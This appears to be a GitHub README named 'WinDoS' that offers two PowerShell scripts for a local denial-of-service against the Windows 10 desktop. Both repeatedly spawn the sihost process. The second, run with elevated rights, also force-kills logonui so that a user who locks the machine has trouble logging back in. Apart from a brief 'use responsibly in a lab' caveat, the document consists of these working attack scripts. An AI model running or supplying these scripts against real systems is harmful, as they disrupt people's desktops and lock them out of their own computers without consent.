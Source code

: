 # WinDoS
Spawning sihost leads to unexpected behaviour in context with the Windows Desktop on Windows 10


*Please use this following PowerShell code responsibly, with caution, and in a lab environment as it could break things or lead to unexpected behaviour.*


### Temporarily disturb the Windows Desktop Environment
```PowerShell
$i = 64

while($i -ne 0){
  sihost
  $i = $i - 1
}
```
### Temporarily disturb the Windows Desktop Environment and if the User locks the computer, impair the login process (Requires elevated PowerShell instance).
```PowerShell
$i = 256

while ($i -ne 0) {
    $p = Get-Process -Name logonui -ErrorAction SilentlyContinue
    if ($p) {
        Stop-Process -Id $p.Id -Force
    }
    sihost
    $i = $i - 1
}
```



